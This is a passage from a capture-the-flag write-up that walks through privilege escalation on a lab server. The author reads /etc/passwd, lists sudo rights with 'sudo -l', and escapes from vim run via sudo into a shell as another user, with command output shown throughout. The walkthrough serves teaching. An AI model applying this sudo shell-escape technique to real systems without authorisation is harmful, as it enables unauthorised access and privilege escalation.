 We now have a real shell as `user`. Let's look at what other things are on the server.

```bash
user@b43e27468d7b:~$ /bin/cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
user:x:1000:1000::/home/user:/bin/rbash
globalSystem:x:1001:1001::/home/globalSystem:/bin/bash
navigationSystem:x:1002:1002::/home/navigationSystem:/bin/bash
```
 
The goal is to take over the navigation system:

```bash
user@b43e27468d7b:~$ /bin/ls -al ~navigationSystem/
total 24
drwxr-xr-x 2 root             root             4096 Nov  1 10:52 .
drwxr-xr-x 1 root             root             4096 Nov  1 10:52 ..
-r--r--r-- 1 navigationSystem navigationSystem  220 Apr 18  2019 .bash_logout
-r-------- 1 navigationSystem navigationSystem 3533 Nov  1 10:52 .bashrc
-r--r--r-- 1 navigationSystem navigationSystem  807 Apr 18  2019 .profile
-r-------- 1 navigationSystem navigationSystem   43 Nov  1 10:52 flag.txt
```

More specifically, it looks like we want to read `flag.txt`. It's only readable by `navigationSystem`, so we have to find a way to become that user, or be able to run commands as that user. 

`sudo` is meant specifically for that task; with `sudo -l`, we can look at which commands we are allowed to execute as another user:

```bash
user@b43e27468d7b:~$ /usr/bin/sudo -l
Matching Defaults entries for user on b43e27468d7b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User user may run the following commands on b43e27468d7b:
    (globalSystem) NOPASSWD: /usr/bin/vim
```

So we can run `vim` as the `globalSystem` user without entering a password. 

From vim, we can do `:!bash` to escape into a shell again, but now running as `globalSystem`:


```bash
user@b43e27468d7b:~$ /usr/bin/sudo -u globalSystem /usr/bin/vim

globalSystem@b43e27468d7b:/home/user$
globalSystem@b43e27468d7b:/home/user$ cd
globalSystem@b43e27468d7b:~$ ls -al
total 20
dr-xr-xr-x 2 root         root         4096 Nov  1 10:52 .
drwxr-xr-x 1 root         root         4096 Nov  1 10:52 ..
-r--r--r-- 1 globalSystem globalSystem  220 Apr 18  2019 .bash_logout
-r--r--r-- 1 globalSystem globalSystem 3533 Nov  1 10:52 .bashrc
-r--r--r-- 1 globalSystem globalSystem  807 Apr 18  2019 .profile

```
